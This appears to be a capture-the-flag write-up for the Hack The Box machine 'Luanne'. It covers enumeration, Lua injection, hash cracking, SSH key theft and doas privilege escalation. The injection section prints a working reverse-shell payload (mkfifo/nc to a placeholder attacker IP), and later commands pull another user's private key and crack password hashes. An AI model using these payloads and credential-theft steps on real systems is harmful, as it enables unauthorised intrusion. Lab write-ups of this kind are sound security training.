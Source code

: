 ```yaml
---
layout: secret_post
title: Luanne Hackthebox Writeup
date: 2020-12-01 09:00:00 +0800
categories: [Hackthebox, Active]
tags: [bsd,doas,hashcat,cracking,hashes,ssh,reverse shell,lua,gobuster,directory enumeration,netbsd,luanne,hackthebox]     # TAG names should always be lowercase
image: /assets/img/luanne-hackthebox/luanne-pic.png
subtitle: JHBDOcubeoveiubo
key: "password"
---
```


# Introduction@Luanne:~$


Column | Details
------------ | -------------
Name | Luanne
IP | 10.10.10.218
Points | 20
Os | BSD
Difficult | Easy
Creator | [polarbearer](https://www.hackthebox.eu/home/users/profile/159204)
Out on | 28th November 2020

# Summary:~$

* Discovering the new host and scanning for open ports.
* Checking **robots.txt** and enumerating the `directories`.
* Generating a reverse shell in `Lua`.
* Getting a low priviveleged shell, and traversing in every directory.
* **Cracking** hash using `hashcat`.
* Accessing an unexplored port i.e. `3001`.
* Extracting `id_rsa` of one of the users : `r.michaels` using a crafted **curl** command.
* Loging into `r.michaels` using **ssh** with **id_rsa**.
* Manually `enumerating` and looking for interesting files.
* Decrypting a file using `netpgp` : A tool for decrypting files in BSD.
* **Cracking** another hash using `hashcat`.
* **Escalating** privileges as **root** using `doas` command in BSD.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/luanne-hackthebox/xx-alternate-nmapautomator.png)


Basically 3 ports are open : `22:ssh` `80:http` `9001:http-Medusa`.

I looked at **port 80** which showed `/weather` as one of the directories.

Accessing `http://10.10.10.218`.

___
![](/assets/img/luanne-hackthebox/latestt-01.png)


Accessing `http://10.10.10.218/robots.txt`.

___
![](/assets/img/luanne-hackthebox/latest-02.png)


Accessing `http://10.10.10.218/weather`.

___
![](/assets/img/luanne-hackthebox/latest-03.png)


It shows a `404 error` , enumerating directory with `gobuster`.

**Command used:** `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.218/weather/ -t 100`

___
![](/assets/img/luanne-hackthebox/gobuster.png)


I got another directory as `/forecast`. Further accessing and providing the parameter as `city`.

___
![](/assets/img/luanne-hackthebox/latest-04.png)


___
![](/assets/img/luanne-hackthebox/latest-05.png)


Trying to create an `error` with which is `%27` in URL encode.

___
![](/assets/img/luanne-hackthebox/creating-error.png)


From the error I got to know that a language called `Lua` is being used.

After some research I created a `reverse shell`.

**Shell Command :** *http://10.10.10.218/weather/forecast?city=London'+os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR-IP 4444 >/tmp/f ")+'*

URL encoding the reverse shell payload, sending it and listening on `nc`.

___
![](/assets/img/luanne-hackthebox/initial-foothold-shell-10.png)


I got a shell as `_httpd`.

After that, I manually enumerated the files and while accessing `/var/www/`, I got a `.htpasswd` file.

___
![](/assets/img/luanne-hackthebox/webapi-user-12.png)


I used `Hashcat` to crack the hash.

**Hashcat Command:** *hashcat -m 500 -a 0 /home/pulkittalwar2611/Desktop/hashes rockyou.txt --force*. Where the hash is stored in the file called `hashes`.

___
![](/assets/img/luanne-hackthebox/hashcat-commad-cracking-14.png) ___

Got the password as `iamthebest`. I logged in port 80 but couldn't find anything there.

Accessing `port 9001`, and entering **user:123** as random username:password.

___
![](/assets/img/luanne-hackthebox/port-9001-login-access-17.png)


Further I checked `http://10.10.10.218:9001/logtail/processes`. I found the following:

___
![](/assets/img/luanne-hackthebox/logical-process-3001-port.png)


To understand in detail, read this : [Userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) and [Userdir-feature](https://websiteforstudents.com/configure-nginx-userdir-feature-on-ubuntu-16-04-lts-servers/).

Getting `id_rsa` of the user: `r.michaels`.

**Command Used:** *curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa*

___
![](/assets/img/luanne-hackthebox/id-rsa-r.michaels-19.png)


Proving permissions to `id_rsa` as `600`. Loging in as `r.michaels` using ssh and id_rsa.

**Command Used:** *chmod 600 id_rsa* 

*ssh -i id_rsa r.michaels@10.10.10.218*

___
![](/assets/img/luanne-hackthebox/ssh-loggedin-21.png)


Got `User Flag`.

___
![](/assets/img/luanne-hackthebox/user-flag-22.png)


Further enumerating manually, I got a `backup file` in `/home/r.michaels/backups/`. As it was encrypted so I used `netpgp` command to decrypt it.

___
![](/assets/img/luanne-hackthebox/backups-r.michales-encrypt-23.png)


**Command Used:** *netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/output.tar.gz*

___
![](/assets/img/luanne-hackthebox/netpgp-decrypt-output-25.png)


___
![](/assets/img/luanne-hackthebox/unzip-gunzip-28.png)


After accessing `devel-2020-09-16/www/.htpasswd`, I got another hash: *webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.*

Again used `Hashcat` to crack the hash.

**Hashcat Command:** *hashcat -m 500 -a 0 /home/pulkittalwar2611/Desktop/hashes rockyou.txt --force*. Where the hash is stored in the file called `hashes`.

___
![](/assets/img/luanne-hackthebox/hash-crack-root-30.png)


Got the password as `littlebear`.

To upgrage `privileges` in BSD, following command is used : *doas -u root /bin/sh* and then enter the password you got.

___
![](/assets/img/luanne-hackthebox/root-31.png)


Got `Root Flag`.

